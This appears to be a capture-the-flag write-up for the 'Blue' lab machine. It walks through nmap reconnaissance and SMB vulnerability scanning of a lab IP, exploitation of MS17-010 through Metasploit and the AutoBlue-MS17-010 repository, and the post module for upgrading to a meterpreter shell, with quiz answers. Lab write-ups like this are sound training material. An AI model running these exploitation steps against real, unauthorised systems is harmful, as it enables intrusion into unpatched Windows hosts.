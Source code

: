 ```yaml
---
description: 'OS: Windows'
---
```


# BLUE

**بسم الله الرحمن الرحيم**

<figure><img src="../../../../../.gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

### Recon

using Nmap&#x20;

```bash
nmap 10.10.55.229 -sV -sC 
```

How many ports are open with a port number under 1000?

```bash
sudo nmap 10.10.55.229 -p 1-1000  #Result = 3
```

<figure><img src="../../../../../.gitbook/assets/image (267).png" alt=""><figcaption></figcaption></figure>

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```
sudo nmap 10.10.55.229 -sV  -p T:135,139,445 --script="smb-vuln-*"

```

<figure><img src="../../../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
**the OS windows VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)**
{% endhint %}

### Gain Access / initial Access

using MSF6

```bash
msfconsole
search ms17-010
use 0
options
set RhOSTS


```



<figure><img src="../../../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

My connection was cut off  there was a problem with vpn

&#x20;

<figure><img src="../../../../../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

but in my PC <mark style="color:red;">**FAIl**</mark>

<figure><img src="../../../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

&#x20;i will try search I Found exploit [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
git clone  https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010/shellcode 
./shell_prep.sh
```

<figure><img src="../../../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

### Escalate

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)&#x20;

**`Answer`**` ``post/multi/manage/shell_to_meterpreter`

<figure><img src="../../../../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

Select this (use MODULE\_PATH). Show options, what option are we required to change?

**Answer** `session`\
